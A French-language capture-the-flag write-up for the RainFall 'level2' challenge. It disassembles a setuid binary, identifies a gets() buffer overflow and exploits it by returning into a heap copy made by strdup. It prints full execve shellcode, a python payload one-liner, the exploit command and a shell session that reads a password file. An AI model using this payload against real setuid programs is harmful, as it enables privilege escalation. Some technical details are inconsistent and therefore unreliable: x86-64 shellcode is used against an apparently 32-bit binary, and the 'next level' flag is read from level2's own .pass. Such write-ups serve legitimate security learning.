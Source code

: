 ## `Level2`

## Introduction

Nous avons un exécutable `level2` avec les droits suivants :

```bash
level2@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
```

Lorsque nous l'exécutons, il semble doubler l'entrée standard comme un effet miroir.

```bash
level2@RainFall:~$ ./level2 
ls
ls
```

Nous allons analyser et décompiler l'exécutable pour comprendre son comportement et identifier une éventuelle vulnérabilité.

## Analyse et Décompilation

### Fonction `main`

Après décompilation, nous observons que la fonction `main` appelle la fonction `p` :

```assembly
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   %ebp
   0x08048540 <+1>:	mov    %esp,%ebp
   0x08048542 <+3>:	and    $0xfffffff0,%esp
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave  
   0x0804854b <+12>:	ret    
End of assembler dump.
```

### Fonction `p`

La fonction `p` contient une vulnérabilité due à l'utilisation de `gets`, ce qui permet un débordement de tampon. Voici le désassemblage de la fonction `p` :

```assembly
(gdb) b p
Breakpoint 2 at 0x80484da
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
End of assembler dump.
```

### Vérification d'adresse

Il y a une vérification sur les adresses allant de `0xb0000000` à `0xbfffffff`, empêchant ainsi l'utilisation de la pile pour stocker le shellcode. 

## Utilisation du tas (heap)

Nous pouvons utiliser le tas (heap) pour stocker notre shellcode. La fonction `strdup` utilise `malloc`, qui alloue la mémoire dans le tas. Nous voyons que `malloc` retourne toujours l'adresse `0x804a008` :

```bash
level2@RainFall:~$ ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff804, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                              = 0
gets(0xbffff70c, 0, 0, 0xb7e5ec73, 0x80482b5)                   = 0xbffff70c
puts("")                                                        = 1
strdup("")                                                      = 0x0804a008
+++ exited (status 8) +++
```

Nous pouvons essayer de copier un shellcode dans le tas et utiliser l'adresse allouée par `malloc` comme adresse de retour.

### Shellcode

Nous utiliserons le shellcode suivant de 30 octets :

```python
\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05
```

## Construction du payload

Notre shellcode fait 30 octets de long. Nous devons remplir avec des données arbitraires jusqu'à 80 octets, puis les 4 derniers octets pour l'adresse de retour.

### Payload final

Le buffer d'attaque final sera structuré comme suit :

- Shellcode : 30 octets
- Remplissage de données arbitraires : 50 octets
- Adresse de retour : 4 octets

```bash
level2@RainFall:~$ python -c 'print "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + "A" * 50 + "\x08\xa0\x04\x08"' > /tmp/exploit
```

### Exécution de l'exploit

```bash
level2@RainFall:~$ cat /tmp/exploit - | ./level2
```

## Accès au Shell

Un shell est accessible ensuite :

```bash
level2@RainFall:~$ pwd
/home/user/level2
level2@RainFall:~$ id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
level2@RainFall:~$ whoami
level3
level2@RainFall:~$ cat /home/user/level2/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## Conclusion

Nous avons réussi à exploiter la vulnérabilité de débordement de tampon dans `level2` en utilisant le tas (heap) pour stocker notre shellcode et en écrasant l

'adresse de retour pour pointer vers cette région. Cela nous a permis d'exécuter le shellcode et d'obtenir un shell avec les privilèges de `level3`, nous permettant de lire le flag pour le niveau suivant.

Level2 passé avec succès !